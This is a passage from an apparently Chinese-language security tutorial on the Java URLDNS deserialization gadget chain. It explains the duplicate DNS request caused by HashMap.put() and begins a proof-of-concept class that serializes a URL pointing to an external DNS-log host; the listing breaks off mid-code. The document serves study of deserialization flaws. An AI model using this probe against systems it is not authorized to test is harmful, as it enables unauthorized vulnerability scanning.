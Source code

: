![image-20220918232949145](images/image-20220918232949145.png)

## 为什么发送了两次请求？

可以看到上图中的结果显示一共发送了两次请求，调试后发现`HashMap.put()`方法也会调用一次`putVal()`方法
![image-20220918233144243](images/image-20220918233144243.png)

为了规避实际环境中产生误判的情况，我们需要消除掉这一次多余的`DNS`请求。

我们在`put()`方法前先设置`hashCode`字段值不为`-1`就可以不进入`hashCode = handler.hashCode(this);`语句里，就可避免发送`DNS`请求。

最终 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://4b9cc854.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
```